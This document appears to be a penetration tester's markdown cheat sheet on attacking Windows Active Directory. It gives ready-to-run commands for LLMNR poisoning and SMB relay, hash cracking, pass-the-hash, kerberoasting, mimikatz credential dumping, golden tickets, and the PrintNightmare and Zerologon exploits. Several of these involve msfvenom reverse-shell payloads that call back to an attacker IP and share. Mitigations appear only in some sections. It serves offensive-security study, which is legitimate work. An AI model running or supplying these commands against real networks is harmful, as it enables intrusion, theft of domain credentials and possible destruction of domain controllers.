

# Attacking Active Directory

## Active Directory Components

### AD DS Schema

Class Object : What objects can be crated in the directory : User, Computer

Attribute Object : Information that can be attached to an object : Display name

### Domains

are used to group and manage objects on an organization

### Trees

is a hierarchy of domains in AD DS

### Forest

is a collection of one or more domain trees

### Organizational Units (OU)

are AD containers that can contain users, groups, computers, and other OUs

### Trusts 

provide a mechanism for users to gain access to resources in another domain

Directional : trust direction flows from trusting domain to the trusted domain

Transitive : trust relationship is extended beyond a two-domain trust to include other trusted domains

## Initial Attack Vectors

### LLNMR Poisoning (Link Local Multicast Name Resolution)
/MITM Attack

[Responder Github link](https://github.com/SpiderLabs/Responder)

1. run responder
2. an event occurs
3. get hashes
4. crack hashes

responder
```
responder.py -I tun0 -rdw
```

hashcat
```
hashcat -m 5600 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt
```

Mitigation:
- disable LLMNR and NBT-NS
- require network access control
- require strong user passwords

### SMB Relay
/MITM Attack

[Responder Github link](https://github.com/SpiderLabs/Responder)

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

1. edit responder conf
2. run responder  
3. set up your relay
4. an event occurs
5. get sam hashes

responder
```
vim /etc/responder/Responder.conf

<snip>
SMB = Off
<snip>
HTTP = Off
<snip>
```

responder
```
responder.py -I tun0 -rdw
```

ntlmrelayx
```
ntlmrelayx.py -tf target.txt -smb2support -c "whoami"
```

Mitigation:
- enable smb signing on all devices
- - pro : completely stops the attack
- - con : can cause performance issues with file copies
- disable ntlm authentication on network
- - pro : completely stops the attack
- - con : if kerberos stops working, windows defaults back to ntlm
- account tiering
- - pro : limits domain admins to specific tasks
- - con : enforcing the policy may be difficult
- local admin restriction
- - pro : can prevent a lot of lateral movement
- - con : potential increase in the amount of service desk tickets

### What to do with creds/hashes

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

metasploit
```
use exploit/windows/smb/psexec
set RHOST ip
set SMBDOMAIN domain.name
set SMBUSER username
set SMB PASS password
set PAYLOAD windows/x64/meterpreter/reverese_tcp
set LHOST ip
set LPORT port
run
```

manual
```
# authenticate with password
psexec.py domain.name/username:password@ip

# authenticate with pass the hash
psexec.py domain.name/username@ip -hashes hash
```

### mitm6

[mitm6 Github link](https://github.com/fox-it/mitm6)

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

mitm6
```
mitm6 -d domain.name
```

ntlmrelayx
```
ntlmrelayx.py -6 -t ldaps://dc-ip -wh fake.domain.name -l lootme
```

[Combining NTLM Relays and Kerberos Delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

Mitigation:



### Passback Attacks

[A Pen Tester’s Guide to Printer Hacking](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/)

### Other Attack Vectors and Strategies

Strategies:
- Begin day with mitm6 or Responder
- Run scans to generate traffic (nmap and nessus)
- If scans are taking too long, look for websites in scope (http_version)
- Look for default credentials on web logins
- - Printers
- - Jenkins
- - Etc
- Think outside the box

## Post Compromise Enumeration

### powerview

[PowerShellMafia Github link](https://github.com/PowerShellMafia/PowerSploit)

[PowerView Cheat Sheet](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

powerview
```
powershell -ep bypass
. .\PowerView.ps1
Get-NetDomain                                   #network domain enum
Get-NetDomainController                         #network domain controller enum
Get-DomainPolicy                                #domain policy enum
(Get-DomainPolicy)."system access"               #domain password policy
Get-NetUser                                     #user enum
Get-NetUser | select cn                         #username enum
Get-UserProperty                                #user property enum
Get-UserProperty -Properties pwlastset          #user pwlastset enum
Get-UserProperty -Properties logoncount         #user logoncount enum
Get-NetComputer                                 #computer enum
Get-NetComputer -FullData                       #computer enum
Get-NetGroup                                    #group enum
Get-NetGroup -GroupName "Domain Admins"         #group domain admin enum
Get-NetGroupMember -GroupName "Domain Admins"   #group members domain admin enum
Invoke-ShareFinder                              #smb shares enum
Get-NetGPO                                      #group policy enum
Get-NetGPO | select displayname, whenchanged    #group policy enum
```

### bloodhound

[BloodHound Github link](https://github.com/BloodHoundAD/BloodHound)

bloodhound
```
neo4j console
bloodhound
```

collect data
```
powershell -ep bypass
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain domain.name -ZipFileName file.zip
```

bloodhound

Upload data -> locate file.zip

Queries -> Find to Shortest Path to Domain Admin

Queries -> Shortest Path to High Value Targets

## Post Compromise Attacks

### pass the password

[CrackMapExec Github link](https://github.com/byt3bl33d3r/CrackMapExec)

crackmapexec
```
crackmapexec ip -u username -d domain -p password
```

### pass the hash

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

[CrackMapExec Github link](https://github.com/byt3bl33d3r/CrackMapExec)

secretsdump
```
secretsdump.py domain.name/username:password@ip
```

crackmapexec
```
crackmapexec ip -u username -H hash --local
```

* ntlm can be pass
* ntlmv2 cannot be pass

hashcat
```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -O
```

Mitigation:
- limit account re-use
- - avoid re-using local admin password
- - disable guest and administrator accounts
- - limit who is a local administrator
- utilize strong passwords
- - the longer the better >14
- - avoid using common words
- - long sentences
- privilege access management
- - check out/in sensitve accounts when needed
- - automatically rotate passwords on check out and check in
- - limits pass attacks as hash/password is strong an constantly rotated

### token impersonation

Delegation Token: created from logging into a machine or rdp

Impersonation Token: non-interactive such as attaching a network drive or domain logon script

metasploit -> incognito
```
load incognito
list_tokens -u
impersonate_token token_name
```

Mitigation:
- limit user/group token creation permissons
- account tiering
- local admin restriction

### kerberoasting

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

Get TGS and decrypt server's account hash

1. get spn's, dump hash
2. crack the hash

GetUserSPNs
```
GetUserSPNs.py domain.name/username:password -dc-ip ip -request
```

hashcat
```
hashcat -m 13100 -o crack.txt nhash.txt /usr/share/wordlists/rockyou.txt
```

Mitigation:
- strong passwords
- least privilege

### gpp/cpassword

metasploit
```
use auxiliary/scanner/smb/smb_enum_gpp
set RHOSTS ip
set SMBUSER username
set SMBPASS password
run

use post/windows/gather/credentials/gpp
set SESSION1
run
```

manual
```
smbclient //ip/SYSVOL -U username -P 
# locate and download Groups.xml
# \Policies\{EE416E94-7362-4587-9CEC-651656DB7538}\Machine\Preferences\Groups\Groups.xml
gpp-decrpyt hash
```

HTB: Active

### url file

[Responder Github link](https://github.com/SpiderLabs/Responder)

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

Save As -> All Files -> @something.url

responder
```
responder.py -I tun0 -rdw
```

### printnightmare (CVE-2021-34527)

[cube0x0 RCE Github link](https://github.com/cube0x0/CVE-2021-1675)

[calebstewart LPE Github link](https://github.com/calebstewart/CVE-2021-1675)

checking if vuln
```
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

creating payload msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=5555 -f dll > shell.dll
```

opening a meterpreter listener
```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 5555
run
```

opening a samba share
```
smbserver.py share `pwd` -smb2support
```

running the exploit
```
./CVE-2021-34527.py domain.name/username:password@ip '\\attacker_ip\share\shell.dll`
```

### mimikatz

[mimikatz Github link](https://github.com/gentilkiwi/mimikatz)

Dump credentials stored in memory

mimikatz
```
privilege::debug
sekurlsa::logonpasswords            #dump ntlm hash
lsadump::sam                        #dump sam
lsadump::lsa /patch                 #dump lsa
```

### golden ticket

[mimikatz Github link](https://github.com/gentilkiwi/mimikatz)

```
lsadump::lsa /inject /name:krtgt
# save Domain SID 
# save NTLM hash
kerberos::golden /User:Administrator /domain:domain.name /sid:domain_sid /krbtgt:ntlm_hash /id:500 /ptt
misc::cmd
```

### zerologon (CVE-2020-1472)
/very dangerous could destroy domain controller

[dirkjanm CVE-2020-1472 POC Github link](https://github.com/dirkjanm/CVE-2020-1472)

[SecuraBV ZeroLogon Checker Github link](https://github.com/SecuraBV/CVE-2020-1472)

checking if vuln
```
python3 zerologon_check.py domain_controller-DC ip
```

running the exploit
```
python3 cve-2020-1472-exploit.py domain_controller-DC ip
```

check and restore
```
secretsdump.py -just-dc domain/domain_controller-DC\$@ip

secretsdump.py administrator@ip --hashes hash

python3 restorepassword.py domain/domain_controller-DC@domain_controller -target-ip ip -hexpass hexpass
```
